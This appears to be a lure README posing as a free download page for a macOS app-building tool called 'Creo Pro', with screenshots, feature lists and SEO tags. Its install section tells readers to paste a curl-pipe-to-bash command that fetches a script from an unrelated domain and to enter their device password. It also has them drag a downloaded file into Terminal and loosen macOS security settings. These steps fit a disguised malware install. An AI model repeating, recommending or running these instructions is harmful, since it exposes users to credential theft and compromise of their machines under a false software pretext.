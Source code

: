 <p align="center">
  <img src="https://i.ibb.co/bMB4VmTN/51515.webp" alt="Creo Pro macOS Banner" />
</p>

<h1 align="center">Creo Pro for macOS</h1>

<p align="center">
  📱 Visually design, prototype, and build native iOS apps in a single environment — with zero dependencies.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/148" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CREO%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Creo Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/jZb9D2Gp/2154.jpg" alt="Creo Pro Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Creo Pro?

**Creo Pro** is an all-in-one app development tool for macOS that allows designers and developers to visually build native iOS apps — combining design, logic, and code into a single environment.

You can create complete, working app prototypes without leaving the UI. Define screens, transitions, logic, and animations directly inside the macOS app — then preview and run your app live on your iPhone or in the simulator.

Creo Pro is ideal for product designers, indie developers, and educators looking to bridge the gap between UI/UX and functional mobile apps.

---

## ✅ Why Choose Creo Pro?

- 🧩 **Build Native iOS Apps Visually**  
- 🧠 **No External SDKs or Tools Needed**  
- 🎯 **Real-Time Code Behind UI**  
- 🔄 **Live Preview on Device or Simulator**  
- 💡 **Logic, Navigation & Animations Built-In**  
- 🖥️ **Apple Silicon & Intel Native**  
- ✏️ **Drag & Drop Interface Editor**  
- 🚫 **No Cloud or Subscription Required**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/xqmZV0xF/15166.jpg" alt="Creo Visual Interface Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/Z1mn0w1B/1231515.jpg" alt="Creo Live Preview Feature Screenshot" />
</p>

---

## 🚀 Key Features

- Visual app builder with code integration  
- Native iOS app creation on Mac  
- Preview live on iPhone or Simulator  
- Logic flow editor and component system  
- Built-in animation and UI transitions  
- Offline, local development  
- Perfect for rapid prototyping  
- Export to native iOS project  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Creo Pro under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/AppType-Visual+iOS+Builder-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Drag+Drop+Editor-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Creo Pro – Design Meets Code

Thanks for using **Creo Pro for macOS**.  
Build interactive iOS apps from idea to prototype — all from your Mac.

---

## 🧭 Usage Context

This macOS tool is intended for offline mobile UI prototyping, app design, and logic testing.  
No cloud sync or external runtime is involved.

All data is processed locally.  
Avoid using in corporate-managed or deployment-critical environments.

This software is not affiliated with Apple or any third-party services.

---

## 🔍 Tags

```text
creo pro for mac download, creo pro app builder macos, ios app prototyping tool for mac, download creo pro full mac version, creo pro apple silicon m1 builder, visual ios app creator mac creo, drag and drop ios ui builder mac, creo pro app development without xcode, creo pro simulator preview macos, creo pro mac build native app visual, creo mac offline app designer, creo pro export to ios project mac, creo pro for ventura and sonoma mac, creo pro mac no-code ios app creator, creo visual logic editor for mac
